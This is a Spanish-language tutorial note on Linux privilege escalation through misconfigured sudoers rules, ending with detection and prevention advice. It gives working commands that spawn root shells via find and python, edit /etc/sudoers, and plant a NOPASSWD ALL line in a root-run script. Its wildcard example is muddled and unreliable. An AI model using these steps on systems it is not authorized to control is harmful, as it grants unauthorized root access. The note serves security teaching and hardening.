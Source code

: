 
# Abuso de Privilegios a Nivel de Sudoers

## ¿Qué es Sudo?

Sudo (SuperUser DO) es un programa diseñado para sistemas Unix/Linux que permite a los usuarios ejecutar programas con los privilegios de seguridad de otro usuario, normalmente el superusuario (root).

## Configuración de Sudo

Los privilegios de sudo se configuran en el archivo `/etc/sudoers` o en archivos dentro del directorio `/etc/sudoers.d/`. Esta configuración determina quién puede usar sudo y qué comandos pueden ejecutar.

## Posibles Vectores de Abuso

### 1. Ejecución de Comandos Específicos

**Ejemplo:** Supongamos que un usuario tiene permiso para ejecutar un comando específico como root:

```
usuario ALL=(ALL) NOPASSWD: /usr/bin/find
```

**Abuso:**
```bash
# El usuario puede usar 'find' para ejecutar comandos arbitrarios
sudo find / -exec /bin/bash \;
```

Este comando inicia una shell con privilegios de root.

### 2. Permisos de Edición de Archivos Sensibles

**Ejemplo:** El usuario puede editar cualquier archivo:

```
usuario ALL=(ALL) NOPASSWD: /usr/bin/vim
```

**Abuso:**
```bash
# Editar el archivo sudoers para otorgarse más privilegios
sudo vim /etc/sudoers

# O añadir un usuario al archivo passwd
sudo vim /etc/passwd
```

### 3. Wildcards en la Configuración

**Ejemplo:** Configuración con wildcards:

```
usuario ALL=(ALL) NOPASSWD: /bin/chown * /home/usuario/archivo
```

**Abuso:**
```bash
# Usar el wildcard para ejecutar comandos adicionales
sudo chown root --reference=/etc/passwd /home/usuario/archivo
```

### 4. Comandos que Pueden Lanzar Shells

**Ejemplo:** Usuario con permiso para usar programas que pueden lanzar shells:

```
usuario ALL=(ALL) NOPASSWD: /usr/bin/python
```

**Abuso:**
```bash
# Lanzar una shell con privilegios de root mediante Python
sudo python -c 'import os; os.system("/bin/bash")'
```

### 5. Permisos de Sudo sin Contraseña

**Ejemplo:** Configuración NOPASSWD para todos los comandos:

```
usuario ALL=(ALL) NOPASSWD: ALL
```

**Abuso:**
```bash
# El usuario puede ejecutar cualquier comando como root sin contraseña
sudo su -
```

## Cómo Detectar y Prevenir estos Abusos

1. **Revisión Regular**: Auditar regularmente el archivo sudoers.
2. **Principio de Privilegio Mínimo**: Otorgar solo los privilegios necesarios.
3. **Evitar Wildcards**: No usar comodines en la configuración de sudo.
4. **Monitoreo**: Implementar sistemas de monitoreo para detectar abusos.
5. **Usar sudoreplay**: Para auditar las sesiones de sudo.

## Comandos Útiles para Verificar Configuración

```bash
# Ver tus permisos sudo
sudo -l

# Verificar la sintaxis del archivo sudoers
visudo -c

# Ver quién tiene privilegios sudo en el sistema
grep -r "ALL=(ALL)" /etc/sudoers /etc/sudoers.d/
```

## Ejemplo Práctico de Escalada de Privilegios

Supongamos que tienes permisos para ejecutar un script como root:

```
usuario ALL=(ALL) NOPASSWD: /scripts/backup.sh
```

Si puedes editar este script, podrías:

```bash
# Añadir al final del script
echo 'echo "usuario ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers' >> /scripts/backup.sh

# Ejecutar el script con sudo
sudo /scripts/backup.sh

# Ahora tienes acceso completo a sudo
sudo su
```

Recuerda: La seguridad del sistema depende de una configuración adecuada de sudo.

---
[[Indice]]